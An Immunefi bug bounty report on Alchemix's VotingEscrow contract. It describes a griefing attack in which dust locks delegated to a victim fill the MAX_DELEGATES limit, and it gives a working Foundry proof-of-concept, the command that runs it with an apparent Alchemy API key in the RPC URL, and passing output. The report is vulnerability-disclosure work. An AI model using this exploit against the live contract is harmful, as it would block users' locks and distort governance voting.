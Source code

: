 
# Anyone can let user's delegates reach the upper limit causing users to be unable to add more delegates

Submitted on Thu May 16 2024 13:24:04 GMT-0400 (Atlantic Standard Time) by @yttriumzz for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31298

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro

Each user in the `VotingEscrow` contract has a maximum number of delegate $veToken. Any user can delegate his $veToken to other users. An attacker can exploit this to let user's delegate to reach the upper limit.

## Vulnerability Details

This bug involves `createLock` operation

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1040
                require(dstTokensOld.length + 1 <= MAX_DELEGATES, "dst would have too many tokenIds");
```

and `delegate` operation

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1110
                require(dstTokensOld.length + ownerTokenCount <= MAX_DELEGATES, "dst would have too many tokenIds");
```

In other words, an attacker can use this bug to DOS `createLock` and `delegate` operations of user.

**Suggested fix**

It is recommended that user can set the minimum number of individual delegates to prevent dust attacks

## Impact Details

An attacker can make the user no longer able to be delegated and mint $veToken. Causes users to be DOSed and may affect governance voting.

## References

None
        
## Proof of concept
The PoC patch

```diff
diff --git a/src/test/VotingEscrow.t.sol b/src/test/VotingEscrow.t.sol
index 6e828a3..73ca043 100644
--- a/src/test/VotingEscrow.t.sol
+++ b/src/test/VotingEscrow.t.sol
@@ -1015,4 +1015,25 @@ contract VotingEscrowTest is BaseTest {
 
         hevm.stopPrank();
     }
+
+    function testYttriumzzPocTemp() external {
+        address attacker = address(0xa77ac8e3);
+        address user = address(0xacc);
+        deal(bpt, attacker, 1e18);
+        deal(bpt, user, 1e18);
+
+        hevm.startPrank(attacker);
+        IERC20(bpt).approve(address(veALCX), type(uint256).max);
+        for (uint256 i = 0; i < veALCX.MAX_DELEGATES(); i++) {
+            veALCX.createLock(1, 0, true);
+        }
+        veALCX.delegate(user);
+        hevm.stopPrank();
+
+        hevm.startPrank(user);
+        IERC20(bpt).approve(address(veALCX), type(uint256).max);
+        hevm.expectRevert("dst would have too many tokenIds");
+        veALCX.createLock(1, 0, true);
+        hevm.stopPrank();
+    }
 }
```

Run the PoC

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
```

The log

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] testYttriumzzPocTemp() (gas: 764132469)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.47s (3.45s CPU time)

Ran 1 test suite in 4.46s (3.47s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

